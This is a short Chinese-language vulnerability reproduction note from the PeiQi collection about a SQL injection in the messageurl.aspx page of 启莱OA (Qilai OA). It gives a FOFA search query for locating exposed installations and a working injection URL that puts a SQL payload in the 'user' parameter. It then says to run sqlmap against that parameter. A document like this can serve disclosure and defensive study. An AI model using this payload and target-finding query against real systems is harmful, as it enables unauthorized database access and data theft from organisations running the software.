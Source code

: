 ```yaml
---
title: 启莱OA messageurl.aspx SQL注入漏洞
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - OA产品漏洞
 - 启莱OA
---
```


# 启莱OA messageurl.aspx SQL注入漏洞

## 漏洞描述

启莱OA messageurl.aspx文件存在SQL注入漏洞，攻击者通过漏洞可以获取数据库敏感信息

## 漏洞影响

> [!NOTE]
>
> 启莱OA

## FOFA

> [!NOTE]
>
> app="启莱OA"

## 漏洞复现

登录页面如下

![](/img/20210924015114897065.png)

存在SQL注入的文件为 messageurl.aspx

```
http://xxx.xxx.xxx.xxx/client/messageurl.aspx?user=' and (select db_name())>0--&pwd=1
```

![](/img/20210924015115190738.png)

使用SQLmap对参数 user 进行注入

![](/img/20210924015115495626.png)